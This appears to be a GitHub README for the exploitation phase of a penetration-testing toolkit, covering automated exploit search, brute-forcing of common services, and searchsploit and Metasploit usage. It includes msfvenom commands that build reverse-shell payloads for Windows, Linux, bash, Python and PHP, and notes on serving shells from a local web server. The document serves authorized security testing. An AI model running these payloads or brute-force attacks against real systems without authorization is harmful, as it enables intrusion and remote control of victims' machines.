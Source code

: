 # Exploitation Phase

Definition

Available parts:

- Search Exploits
- Brute Force

## Features

- Automatic Exploit Search: Search exploits from nmap vulnerability scan
- Brute Force most common services:
    - AFP, AJP, Cassandra, CouchDB, FTP, IMAP, IRC, ISCSI, LDAP, Mongo, MySQL, OracleSQL, POP, PostgreSQL, RDP, Redis, Rexec, Rlogin, Rsh, Rsync, RTSP, SNMP, SMB, SMTP, SOCKS, MS-SQL Server, SSH, Telnet, VNC

## Usage

1. Copy the `exploitation.conf.dist` file to `exploitation.conf`
```bash
cp exploitation.conf.dist exploitation.conf
```
1. Adjust the conf file to your needs
1. Run the script with following command:
```bash
./exploitation.sh -c exploitation.conf
```

## Results

Results stored to output/ directory.

## Search Exploits

Automatic approach:  
Set SEARCHEXPLOIT variable to true to let the script find exploits from nmap vulners scan from reconnaissance phase.  

Manual approach:  
- searchsploit (local copy of exploit-db)
- metasploit search (msf search)
- sqlmap

### searchsploit

Examples:  
```bash
searchsploit -u # update local exploit-db
searchsploit openssh -www
searchsploit apache 2.2 | grep -i local
```

If you have an EDB-ID, you can directly download an exploit with -m parameter:
```bash
searchsploit -m [EDB-ID]
# Example:
searchsploit -m 50689
```

### metasploit

Try metasploit (msfconsole) to search for an exploit by a given CVE Number or EDB-ID or by keywords.  
Metasploit search examples:
```bash
msfconsole -x "search cve:2010-2075; exit;" -q
msfconsole -x "search type:exploit platform:linux ftp; exit;" -q
msfconsole -x "search type:exploit platform:windows port:135; exit;" -q
```

## Tools used

All tools used are preinstalled on latest Kali Linux Version 2022.1:

- nmap
- hydra
- searchsploit

-----

## Additional Information

### Payloads

Creating payloads with MsfVenom:  

```sh
# msfvenom syntax
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport] [more options]

# Examples:
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe    

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > revshell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > revshell.elf

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > revshell.sh

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > revshell.py

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > revshell.php
```


### Reverse Shells

Checkout the following links on Reverse Shells:

- [Reverse Shell Generator](https://www.revshells.com/)
- [Reverse Shell Cheat Sheet @ HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Different Shells @ HackTricks](https://book.hacktricks.xyz/shells/shells)

### Local Web Servers

Need an simple, local web server? These are great for serving up (reverse) shells  

| **Command**                             | **Description**                                                     |
|-----------------------------------------|---------------------------------------------------------------------|
| ```python -m SimpleHTTPServer 8000```   | Run a basic http server with python on port 8000 in this directory  |
| ```python3 -m http.server 8000```       | Same with python3                                                   |
| ```php -S 0.0.0.0:8000```               | Run a basic http server with php on port 8000 in this directory     | 

### SQL Injection

Try [sqlmap](https://github.com/sqlmapproject/sqlmap) to enumerate and inject sql databases.

### Command Injection

Checkout the [commix project](https://github.com/commixproject/commix/wiki/Usage-Examples) for possible command injection examples with commix or for [getting shells with commix](https://github.com/commixproject/commix/wiki/Getting-Shells).
